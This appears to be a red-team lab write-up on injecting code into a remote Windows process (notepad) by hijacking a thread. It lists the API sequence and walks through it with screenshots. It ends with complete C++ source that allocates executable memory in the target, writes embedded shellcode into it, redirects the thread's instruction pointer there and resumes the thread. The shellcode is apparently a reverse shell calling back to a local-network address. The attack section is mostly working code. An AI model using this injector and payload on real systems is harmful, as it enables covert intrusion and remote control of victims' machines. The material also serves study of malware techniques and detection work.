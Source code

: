 # Injecting to Remote Process via Thread Hijacking

This is a quick lab that looks at the API sequence used by malware to inject into remote processes by leveraging a well known thread hijacking technique.

## Overview

Below lists the API calls that are required to execute this technique:

1. Open a handle `targetProcessHandle` to the process \(notepad in our case\) we want to inject to with `OpenProcess`
2. Allocate some executable memory `remoteBuffer` in the target process with `VirtualAllocEx`
3. Write shellcode we want to inject into the memory `remoteBuffer` \(allocated in step 2\), using `WriteProcessMemory`
4. Find a thread ID of the thread we want to hijack in the target process. In our case, we will fetch the thread ID of the first thread in our target process \(notepad\). We will leverage `CreateToolhelp32Snapshot` to create a `snapshot` of target process's threads and eumerate them with `Thread32Next`. This will give us the thread ID we will be hijacking.
5. Open a handle `threadHijacked` to the thread to be hijacked using `OpenThread`
6. Suspend the target thread - the thread we want to hijack \(`threadHijacked`\) with `SuspendThread`
7. Retrieve the target thread's context with `GetThreadContext`
8. Update the target thread's \(retrieved in step 6\) instruction pointer \(`RIP` register\) to point to the shellcode, which was written into the target process's memory in step 3 using `WriteProcessMemory`
9. Commit the hijacked thread's \(upadated in step 7\) new context with `SetThreadContext`
10. Resume the hijacked thread with `ResumeThread`
11. Enjoy the reverse shell

## Walkthrough

Steps 1-3 of the technique overview are self-explanatory and have been covered in more detail in my notes in [Code & Process Injection](./) section.

In step 4, what happens is that we simply find our target process's \(notepad\) main thread ID as seen in the below image:

![](../../.gitbook/assets/image%20%28737%29.png)

In step 5, a handle to that thread `14100` is opened with:

```cpp
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, 14100);
```

![](../../.gitbook/assets/image%20%28685%29.png)

In step 6, that thread \(TID `14100`\) with handle `threadHijacked` is suspended with

```cpp
SuspendThread(threadHijacked);
```

![](../../.gitbook/assets/image%20%28734%29.png)

In step 7, we retrieve the hijacked thread's context, which contains CPU registers at that time, among other things. We need to capture the context, since we will be updating the hijacked thread's instruction pointer RIP in steps 8 and 9, and we do not want the hijacked process to crash once we resume it:

![](../../.gitbook/assets/image%20%28609%29.png)

After executing steps 8 and 9, the hijacked thread's RIP is now pointing to the shellcode in our target process notepad.exe memory location `0x000002736ccf0000`:

![](../../.gitbook/assets/image%20%28724%29.png)

![](../../.gitbook/assets/image%20%28563%29.png)

In step 10, once the hijacked thread \(`threadHijacked`\) is resumed, the shellcode is executed and a reverse shell is executed:

![](../../.gitbook/assets/image%20%28581%29.png)

Below shows the technique in action:

![](../../.gitbook/assets/thread-hijacking.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
    unsigned char shellcode[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
        "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
        "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
        "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
        "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
        "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
        "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
        "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
        "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
        "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
        "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
        "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
        "\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
        "\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
        "\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
        "\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
        "\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
        "\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
        "\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
        "\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
        "\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
        "\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
        "\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
        "\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
        "\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
        "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
        "\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
        "\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

    HANDLE targetProcessHandle;
    PVOID remoteBuffer;
    HANDLE threadHijacked = NULL;
    HANDLE snapshot;
    THREADENTRY32 threadEntry;
    CONTEXT context;

    DWORD targetPID = 15048;
    context.ContextFlags = CONTEXT_FULL;
    threadEntry.dwSize = sizeof(THREADENTRY32);

    targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
    remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);

    snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    Thread32First(snapshot, &threadEntry);

    while (Thread32Next(snapshot, &threadEntry))
    {
        if (threadEntry.th32OwnerProcessID == targetPID)
        {
            threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
            break;
        }
    }

    SuspendThread(threadHijacked);

    GetThreadContext(threadHijacked, &context);
    context.Rip = (DWORD_PTR)remoteBuffer;
    SetThreadContext(threadHijacked, &context);

    ResumeThread(threadHijacked);
}
```

